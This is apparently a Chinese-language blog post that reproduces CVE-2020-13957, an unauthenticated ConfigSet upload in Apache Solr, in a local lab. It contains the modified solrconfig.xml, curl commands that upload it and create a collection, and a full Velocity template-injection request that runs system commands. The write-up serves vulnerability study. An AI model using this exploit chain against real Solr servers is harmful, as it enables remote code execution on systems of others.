 ```yaml
---

layout: post
title:  "【漏洞复现】CVE-2020-13957|Apache Solr ConfigSet API未授权上传漏洞"
categories: 漏洞复现
tags: Solr 漏洞复现
author: 303Donatello

---
```



* content
{:toc}
# 写在前面
复现时发现不需要通过baseConfigSet基于恶意配置创建新的配置即可完成复现，并不是很多文章说需要二次创建恶意配置，有师傅也表达了自己的[疑问](https://www.safedog.cn/news.html?id=4515)，后面再单独写分析的文章，这篇在草稿箱躺太久了。
# 准备环境
## 下载
CVE-2020-13957影响范围： Apache Solr 6.6.0 to 6.6.5、7.0.0 to 7.7.3、8.0.0 to 8.6.2
官方下载地址：[Apache-Solr](http://archive.apache.org/dist/lucene/solr/)，本次漏洞复现下载影响范围内的8.0.0，解压既用。
## 启动
该漏洞需要以cloud模式运行Solr，同时Solr-API不能开启认证
`./solr start -e cloud     #cloud模式启动`
`./solr stop -all      #需要重启时可用该命令停止全部solr进程`
## 利用思路
`利用UPLOAD上传恶意配置->用恶意配置创建新的collection->执行RCE`，由于ConfigSet API存在未授权上传漏洞，可以利用该漏洞实现远程代码执行。
## 准备攻击配置文件并打包
进入`/solr-8.0.0/server/solr/configsets/sample_techproducts_configs/conf/`目录下修改solrconfig.xml如下内容：
```
原配置内容：
<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
<str name="template.base.dir">${velocity.template.base.dir:}</str>
</queryResponseWriter>
```
```
修改后：
<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
<str name="template.base.dir">${velocity.template.base.dir:}</str>
<str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
<str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:true}</str>
</queryResponseWriter>
```
修改完成后在当前目录下打包即可：`zip -r -* > myconfig.zip`
# 漏洞复现
1.上传恶意配置，通过UPLOAD上传刚刚打包好的myconfig.zip，并命名为myconfignew。
`curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfig.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=myconfignew" `
2.创建collection，利用刚刚上传并命名的myconfignew来CREATE一个新的collection:mytestcollection。
`curl -v "http://localhost:8983/solr/admin/collections?action=CREATE&name=mytestcollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myconfignew"`
3.利用
```
GET /solr/mytestcollection/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/json
Content-Length: 0
```
![](https://img2020.cnblogs.com/blog/2011235/202010/2011235-20201020213558014-1139947019.png)
# 参考
[1]https://github.com/Imanfeng/Apache-Solr-RCE
[2]https://www.safedog.cn/news.html?id=4515